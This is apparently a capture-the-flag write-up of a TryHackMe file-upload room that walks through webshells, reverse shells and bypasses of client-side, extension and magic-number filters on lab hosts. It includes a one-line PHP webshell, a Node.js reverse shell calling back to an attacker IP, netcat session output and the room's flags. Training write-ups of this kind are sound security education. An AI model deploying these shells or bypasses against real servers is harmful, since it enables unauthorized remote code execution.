

The ability to upload files to a server has become an integral part of how we interact with web applications. Unfortunately, when handled badly, file uploads can also open up severe vulnerabilities in the server.
Overwriting Existing Files
Open your web browser and navigate to overwrite.uploadvulns.thm. Your goal is to overwrite a file on the server with an upload of your own.
What is the name of the image file which can be overwritten?
mountains.jpgif no precautions are taken, we might be able to overwrite existing files on the server with a file with the same name.
Overwrite the image. What is the flag you receive?
THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}
Remote Code Execution
There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: webshells and reverse/bind shells.
Navigate to shell.uploadvulns.thm and complete the questions for this task.
Run a Gobuster scan on the website using the syntax. What directory looks like it might be used for uploads?
/resources 1┌──(kali㉿kali)-[~/Desktop]
2└─$ gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
3===============================================================
4Gobuster v3.6
5by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
6===============================================================
7[+] Url: http://shell.uploadvulns.thm
8[+] Method: GET
9[+] Threads: 10
10[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
11[+] Negative Status codes: 404
12[+] User Agent: gobuster/3.6
13[+] Timeout: 10s
14===============================================================
15Starting gobuster in directory enumeration mode
16===============================================================
17/resources (Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
18/assets (Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]Get either a web shell or a reverse shell on the machine. What’s the flag in the /var/www/ directory of the server?
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}I created a file called webshell.php and uploaded to the website in order to get a webshell on the machine.
echo '<?php echo system($_GET["cmd"]); ?>' > webshell.php

after uploading the file, navigate to /var/www directory and list files and directory by typing the following command on the browser:
http://shell.uploadvulns.thm/resources/webshell.php?cmd=cd%20/var/www;%20ls;

As we can see, there’s the flag.txt file.

Filtering
Up until now, we have been ignoring the counter-defences employed by web developers. Every website so far has been completely insecure. From here on out, we’ll be looking at some of the defence mechanisms used to prevent malicious file uploads.
client-side filtering is trivially easy to by pass because the filtering is happening on our computer. client-side filtering by itself is a highly insecure method.
server-side filtering tends to be more difficult to by pass, as you don’t have the code in front of you.
Different kinds of filtering:
- Extension Validation
- File Type Filtering
- Magic Number Validation
- File Length Filtering
- File Name Filtering
- File Content Filtering
What is the traditionally predominant server-side scripting language?
PHPWhen validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)?
whitelist[Research] What MIME type would you expect to see when uploading a CSV file?
text/csv
Bypassing Client-Side Filtering
There are four easy ways to bypass your average client-side file upload filter:
- Turn off Javascript in your browser
- Intercept and modify the incoming page
- Intercept and modify the file upload
- Send the file directly to the upload point
Navigate to java.uploadvulns.thm and bypass the filter to get a reverse shell.
What is the flag in /var/www/?
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}Let’s use Gobuster to locate the upload directory name first by running the following command:
gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
1┌──(kali㉿kali)-[~/Desktop]
2└─$ gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
3===============================================================
4Gobuster v3.6
5by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
6===============================================================
7[+] Url: http://java.uploadvulns.thm
8[+] Method: GET
9[+] Threads: 10
10[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
11[+] Negative Status codes: 404
12[+] User Agent: gobuster/3.6
13[+] Timeout: 10s
14===============================================================
15Starting gobuster in directory enumeration mode
16===============================================================
17/images (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/images/]
18/assets (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/assets/]
The website upload only accepts MIME type of png files. So I am going to create a file called hello.png but it contains the Pentest Monkey’s php-reverse-shell code.

Before hitting the upload button, make sure Intercept is on on Burpsuite to capture the request and we’re going to change the MIME type back to text/x-php and the file extension from .png to .php.


1┌──(kali㉿kali)-[~/Desktop]
2└─$ nc -lvp 443
3listening on [any] 443 ...
4connect to [10.6.67.243] from overwrite.uploadvulns.thm [10.10.41.54] 54590
5Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
6 04:52:35 up 4:07, 0 users, load average: 0.00, 0.00, 0.00
7USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
8uid=33(www-data) gid=33(www-data) groups=33(www-data)
9/bin/sh: 0: can't access tty; job control turned off
10$ ls
11bin
12boot
13dev
14etc
15home
16lib
17lib32
18lib64
19libx32
20media
21mnt
22opt
23proc
24root
25run
26sbin
27srv
28sys
29tmp
30usr
31var
32$ cd /var/www
33$ ls
34flag.txt
35html
36$ cat flag.txt
37THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}Bypassing Server-Side Filtering: File Extensions
What is the flag in /var/www/?
THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}First let’s use Gobuster to locate the upload directory name. The directory name turned out to be privacy.

I tried uploading .png file and it was accepted. So I tried uploading the reverse-shell-php file with the name of hello.png.php but it was denied by saying it’s an invalid type format. So I tried hello.php5 and it was accepted!


After the file was uploaded, I navaigated to the /privacy. Before opening up the reverse-shell file, I had run the netcat command thats running on port 1234 to capture and receive the reverse shell connection.
1┌──(kali㉿kali)-[~]
2└─$ nc -lvnp 1234
3listening on [any] 1234 ...
4connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 56504
5Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
6 03:50:14 up 1:26, 0 users, load average: 0.03, 0.01, 0.00
7USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
8uid=33(www-data) gid=33(www-data) groups=33(www-data)
9/bin/sh: 0: can't access tty; job control turned off
10$ ls
11bin
12boot
13dev
14etc
15home
16lib
17lib32
18lib64
19libx32
20media
21mnt
22opt
23proc
24root
25run
26sbin
27srv
28sys
29tmp
30usr
31var
32$ cd /var/www
33$ ls
34flag.txt
35html
36$ cat flag.txt
37THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}Bypassing Server-Side Filtering: Magic Numbers
Head to magic.uploadvulns.thm – it’s time for the last mini-challenge.
Bypass the magic number filter to upload a shell. Find the location of the uploaded shell and activate it. Your flag is in /var/www/.
Grab the flag from /var/www/
THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}The website only accepts GIF type files.

1┌──(kali㉿kali)-[~/Desktop]
2└─$ file shell.php
3shell.php: PHP script, ASCII textAs you can see, our current shell has the type of PHP script. In order to bypass the magic number filtering, we have to add the GIF magic number to the top of our shell.php file.
GIF has a couple magic numbers but I am going to use 47 49 46 38 37 61.
Let’s open up the reverse shell script and add four random characters on the first line. This is just a temporary placeholder so these characters do not matter.

Let’s open up the file in hexeditor now. The first line has value of 41 41 41 41 which represents the values AAAA we put on the first line of the file. Let’s change them to JPEG magic numbers, 47 49 46 38 37 61


If we run the file command again to see the file type, it now says it’s GIF type.
1┌──(kali㉿kali)-[~/Desktop]
2└─$ file shell.php
3shell.php: GIF image data, version 87a, 28735 x 28776
Let’s upload the file now and instead of navigating to /graphics (because directory indexing is turned off for this website), we are going to access the shell directly using its URI like the following:
http://magic.uploadvulns.thm/graphics/shell.php?cmd=whoami;
As you could see from the below, I was running the netcat server to capture the reverse shell and eventually got the flag.
1┌──(kali㉿kali)-[~/Desktop]
2└─$ nc -lvnp 1234
3listening on [any] 1234 ...
4connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 38598
5Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
6 04:35:03 up 2:11, 0 users, load average: 0.00, 0.02, 0.01
7USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
8uid=33(www-data) gid=33(www-data) groups=33(www-data)
9/bin/sh: 0: can't access tty; job control turned off
10$ ls
11bin
12boot
13dev
14etc
15home
16lib
17lib32
18lib64
19libx32
20media
21mnt
22opt
23proc
24root
25run
26sbin
27srv
28sys
29tmp
30usr
31var
32$ cd /var/www/
33$ ls
34flag.txt
35html
36$ cat flag.txt
37THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}Challenge
For this task, we are given a black-box file upload challenge to complete.
Head over to jewel.uploadvulns.thm.
Take what you’ve learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/.
Hack the machine and grab the flag from /var/www/
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}Using Burpsuite, I captured the request on the website and the backend is running Javascript, as we can see from the X-Powered-By: Express.

Also the static upload.js file shows that the upload only accepts jpg or jpeg file format.

Since we found the backend is running javascript, we need the javascript version of rever shell script not the PHP that we’ve been using so far.
1(function () {
2 var net = require("net"),
3 cp = require("child_process"),
4 sh = cp.spawn("/bin/sh", []);
5 var client = new net.Socket();
6 client.connect(8080, "10.17.26.64", function () {
7 client.pipe(sh.stdin);
8 sh.stdout.pipe(client);
9 sh.stderr.pipe(client);
10 });
11 return /a/; // Prevents the Node.js application form crashing
12})();It seems like we can bypass three checks from the client-side: file size, magic number, and file extension. I am just going to delete all of the checks.

Now the file upload has been successful.

I’ve already found the relative directories for image uploads by using the gobuster command that I’ve been using for this room.
1┌──(kali㉿kali)-[~/Desktop]
2└─$ gobuster dir -u http://jewel.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
3===============================================================
4Gobuster v3.6
5by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
6===============================================================
7[+] Url: http://jewel.uploadvulns.thm
8[+] Method: GET
9[+] Threads: 10
10[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
11[+] Negative Status codes: 404
12[+] User Agent: gobuster/3.6
13[+] Timeout: 10s
14===============================================================
15Starting gobuster in directory enumeration mode
16===============================================================
17/content (Status: 301) [Size: 181] [--> /content/]
18/modules (Status: 301) [Size: 181] [--> /modules/]
19/admin (Status: 200) [Size: 1238]
20/assets (Status: 301) [Size: 179] [--> /assets/]
21/Content (Status: 301) [Size: 181] [--> /Content/]
22/Assets (Status: 301) [Size: 179] [--> /Assets/]
23/Modules (Status: 301) [Size: 181] [--> /Modules/]
24/Admin (Status: 200) [Size: 1238]Navigating to other directories are not permitted except the /admin. Take a look at the text on the admin page: As a reminder: use this form to activate modules from the /modules directory. I already know that images are stored in /content not /modules. To access the images I uploaded on /content, I need to specify ../content/{the file of the image}.jpg as we already saw in the gobuster output, both directories are in the same level.

Now, run another gobuster command against the /content directory with the wordlist provided plus -x command to look for jpg files.

As we can see, gobuster output changed our uploaded file name to FNK.jpg notice its size, it’s realtively and small compared to to other files. Let’s run our reverse-shell on the admin page.

the netcat successfully captured the reverse-shell. I was able to change directory to /var/www and capture the flag.